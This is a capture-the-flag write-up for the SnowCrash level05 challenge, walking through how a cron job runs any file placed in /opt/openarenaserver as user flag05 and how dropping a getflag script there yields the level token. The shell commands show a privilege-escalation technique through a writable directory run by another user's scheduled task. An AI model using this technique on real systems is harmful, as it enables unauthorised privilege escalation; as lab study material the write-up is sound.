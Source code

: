 # level05
_Let's do the rit-_
```sh
	   _____                      _____               _
	  / ____|                    / ____|             | |
	 | (___  _ __   _____      _| |     _ __ __ _ ___| |__
	  \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \
	  ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
	 |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|

  Good luck & Have fun

          10.0.2.15 fec0::a83f:f004:114a:bc8d fec0::5054:ff:fe12:3456
level05@127.0.0.1's password:
You have new mail.
level05@SnowCrash:~$
```

_"You have new mail." ?... Okayyyyy... Before dwelling on this, do the ritual_
- `pwd`: `/home/user/level05`
- `id`: `uid=2005(level05) gid=2005(level05) groups=2005(level05),100(users)`
- `ls -la`: nothing
- `find / -user flag05 2> /dev/null`:
```sh
level05@SnowCrash:~$ find / -user flag05 2> /dev/null
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
level05@SnowCrash:~$
```
_A suspect file..._
```sh
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
level05@SnowCrash:~$
```

### What does this script execute ?

- `for i in /opt/openarenaserver/* ; do` : A loop that iterates over all files in `/opt/openarenaserver/`.
- `(ulimit -t 5; bash -x "$i")` : Sets a CPU time of 5 seconds for executing each files in debug mod (`-x`). Over 5 seconds, the script stops.
- `rm -f "$i"` : Delete the file that was executed.
- `done` : The end of the loop.

**The script execute all files in `/opt/openarenaserver/`, letting them 5 seconds to be completly executed before delete them.**

_Okay, with only with that I cannot do anything, I do not have any permission. Go focusing the `You have new mail.`_

- In Linux system, we can receive mails directly in our account files in the machine and store them. And when a mail is receive, the system tell the user `You have new mail.` or `You have mail.`.
- Where are these mails stored ? In the directory `/var/mail/$USER`. **Go check this directory** :
```sh
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
level05@SnowCrash:~$
```
- <u>A `crontab` file</u> : this programm the execution of **the script** as the user **flag05** <u>EVERY 2 MINUTES</U>.

## We need 2 things :
- A shared directory where user `flag05` can write and user `level05` can read : **`/var/tmp`**
- A script that `flag05` must execute for give us the flag and reach the next level (I guess ?...).

## To sum up
- We must ensure that the crontab file that we received by email executes the script `/usr/sbin/openarenaserver` (this is done by itself every 2 minutes).
- We will then place a script in the `/opt/openarenaserver/` directory so that the script meets the entry condition in the iteration loop.
- Then, at the line `(ulimit -t 5; bash -x "$i")` it will have to launch the `bash` script as `flag05` that we had previously placed.
- Finally, the output of our script will have to be displayed in the `/var/tmp` directory.
- We will wait 2 minutes before checking the output because the crontab executes every 2 minutes.

_A `getflag > /var/tmp` might do the trick_
```sh
level05@SnowCrash:~$ echo 'getflag > /tmp/flag' > /opt/openarenaserver/flag && sleep 120 && `cat /tmp/flag`
Check flag.Here is your token : viuaaale9huek52boumoomioc
level05@SnowCrash:~$
```
- `getflag > /tmp/flag` : This command is the script
- `echo 'getflag > /tmp/flag' > /opt/openarenaserver/flag` : We place the script on the right directory for it to be executed by the user `flag05`.
- `sleep 120` : Waiting minimum 2 minute for crontab execute his programmation.
- `cat /tmp/flag` : Obtain the **One Piece 👒**.

# _And here's the job !_

- Let's login to `level06` directly :
```sh
level05@SnowCrash:~$ su level06
Password:
level06@SnowCrash:~$
```
# level05 complet !
![yeah](../../assets/yeah.gif)